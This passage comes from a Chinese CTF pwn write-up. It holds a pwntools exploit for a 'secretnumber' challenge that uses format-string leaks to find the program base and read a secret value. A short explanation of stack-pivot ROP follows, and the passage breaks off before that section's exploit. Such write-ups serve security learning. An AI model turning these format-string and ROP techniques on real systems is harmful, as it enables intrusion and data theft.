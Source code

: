 exp:

```python 
from pwn import *
from ctypes import *

context.terminal = ['tmux','splitw','-h']
context(arch = 'amd64', os = 'linux')
context.log_level='debug'

r = remote('node4.buuoj.cn',28036)
elf = ELF('./secretnumber')
#r = elf.process()

r.recvuntil(b'gift?(0/1)\n')
r.sendline(b'1')

r.recvuntil(b"What's it\n")
r.send(b'%17$p')	#使用的指令是main开头的指令，放在rbp的下两个位置


r.recvuntil(b'gift:\n')
base = int(r.recv(14),16) - 0x12f5	#这里算出基址
info(hex(base))

secret = base + 0x404c
info(hex(secret))

r.recvuntil(b'gift?(0/1)\n')
r.sendline(b'1')

r.recvuntil(b"What's it\n")
r.send(b'AAAAAAAA' + b'%10$sAAA' + p64(secret))	#注意这里一定要填充到8字节，否则出问题

r.recvuntil(b'AAAAAAAA')
#gdb.attach(r)
ans = u32(r.recv(4))
info(ans)

r.sendlineafter(b'gift?(0/1)\n','0')
r.sendlineafter(b'number\n',str(ans))

r.interactive()
```

# stack migration

比较标准的栈迁移，关于栈迁移的知识可以查看[Cyberangel · 语雀 (yuque.com)](https://www.yuque.com/cyberangel/)师傅的笔记。

这种题目是标准的套路，就是他泄露给你的地址就是想让你将esp迁移的位置。然后你在该地址下面直接构造ROP就行了。有后门就一次ROP，没后门就先泄露libc再ROP一样的。

exp:
